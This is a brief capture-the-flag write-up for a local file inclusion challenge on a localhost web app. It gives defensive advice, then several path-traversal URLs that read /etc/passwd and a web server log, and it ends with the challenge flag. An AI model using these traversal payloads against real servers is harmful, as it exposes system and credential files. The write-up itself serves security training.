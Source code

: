 Vulnerability name : Local File Inclusion

How to defend: Always validate and sanitize user inputs, sensitive files should need privileged/admin access, use a web application firewall

The page parameter could be vulnerable to local file inclusion so we test it and we get a hint that we're on the right track.

http://localhost:8080/index.php?page=../../../../etc/passwd

This gives us "ALMOST"

http://localhost:8080/index.php?page=../../../../../var/log/httpd/access.log

Here we have "STILL NOPE"

And we go through a few more until this URL

http://localhost:8080/index.php?page=../../../../../../../etc/passwd

```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```
